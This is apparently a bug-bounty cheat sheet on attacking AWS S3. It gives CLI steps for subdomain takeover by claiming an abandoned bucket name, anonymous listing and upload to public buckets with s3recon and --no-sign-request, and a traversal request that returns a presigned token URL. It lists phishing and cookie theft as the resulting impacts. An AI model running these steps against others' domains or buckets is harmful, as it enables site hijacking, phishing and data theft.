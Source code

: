 # AWS

## S3 Buckets

### Subdomain Takeover

> Take control of a domain that was previously associated with a deprovisoned AWS resource is also known as a Subdomain Takover vulnerability 

##### Crear bucket

* aws s3 mb s3://example.domain.com
* aws s3api create-bucket --bucket example.domain.com --region eu-west-2 --create-bucket-configuration LocationConstraint=eu-west-2

##### Eliminar bucket

* aws s3 rb s3://example.domain.com --force

##### Configure bucket

* aws s3api put-bucket-policy --bucket example.domain.com --policy file://policy.json

##### Upload to bucket

* aws s3 sync ./static/ s3://example.domain.com
* aws s3 cp poc.html s3://example.domain.com

##### Enable public access

* aws s3 website s3://assets.cloudbilling.net/ --index-document index.html --error-document index.html

#### Gravity

* Hosting Phishing websites
* Hosting Malware
* Bypassing CSP policies
* Stealing Cookie's
* Man-in-the-browser attacks

## Public Read Bucket

A bucket is considered **public** if any user can list the contents of the S3 bucket, and **private** if the bucket's contents can only be listed or written by certain S3 users.

#### Tool

```bash
user@DESKTOP-6F28SID:~$pip install s3recon
user@DESKTOP-6F28SID:~$s3recon "word-list.txt" -o "results.json" --public
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox-test
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox
- PUBLIC https://s3.us-west-2.amazonaws.com/example-test
```

#### Manual
```bash
user@DESKTOP-6F28SID:~$aws s3 ls s3://domain --no-sign-request
An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
```

## Public Upload Bucket

#### Manual
```bash
user@DESKTOP-6F28SID:~$aws s3 cp poc.html s3://domain --no-sign-request
load to s3://
```

## S3 Directory traversal

```http
GET /get-image/ HTTP/1.1
HOST: example-domain.eu-west-2.amazonaws.com

{"image": "../../"}

Response

{
https://example-domain.s3.eu-west-2.amazonaws.com/?X-Amz-Security-Token=dIQodJb3JpZad2X2VjEG4aCWV1LXdlc3QtMiJGMEQCIA%2FPVoPn7hBH9Y65nGfvbqRDlh9gw21MMSzwoZlPiA9qAiA9WRCjo3v0lMDfREssIMDz4k6RnAHuKLrVHt9r32HZlyrlAQim%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAMaDDM5MjsYxNTkwMTQyMiIMrXDPzyr7Q%2F7YAQaOKrkBFVlm5VPjyJQ6V9BalmtLIgCWYtbzsRv%2FlMdYU5jzqq9CZjnkzNk9gXHP%2FwtMafwerFnMBn1E%2Fz6hK9YCJacm8SESCtB%2BCSM8dshzGF8mGyMb1vxd9gxE7RikQT4zSIFLnbTNlXCOTEU6757fiSnIsCH%2B7hC1WcnlQRshH%2FULuM7DsPYhnedxeSaqmTk0Uwi%fas2asdVf2RNHePMFQtCDb0L5svPwjLGmbfHWeWjL0vdhSurGO4wq7DiggY64QG96vZcj6GUBVVjRXftMu7wjDH4DKEUpO%2BPuPEpzbVPCX1nDgEddMe%2B5YSNZvYLJIwvNMld00JtZ1FJZgGrOd0dAe%2FfC%2Ba4g3%2BGlieZA6%2BbLZ3UJ6GGlhJluO4LLczel4x4IeUhxnB7znJmkTCccul2PwkowHjABzSMcFd62yEirnWQVDogKlXNsjZllMoEKuGsLWb1D8uDoeuSVE89b06hSaBoNA%2Fzyu1kigVAGxstnW0Z8PD5FjmbfGnWMmaQEkIodyM1JS0uS8COK%2BInUlfFi2wTsyiMOXMqiqse90PhaPPM%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20310322T134547Z&X-Amz-SignedHeaders=host&X-Amz-Expires=900&X-Amz-Credential=ASIAVW2N3HDXM37QBLWS%2F210210322%2Feu-west-2%2Fs3%2Faws4_request&X-Amz-Signature=9a2849e891b0f2cr4155e5c381f71ac047977edb85a997ccbf85d04c34b0a6277
}
```

## Weak S3 POST Upload Policy

The page has upload drivers via S3 bucket, also you can upload a file and replace the drivers file. 

## Reference:
https://application.security/free/kontra-aws-clould-top-10
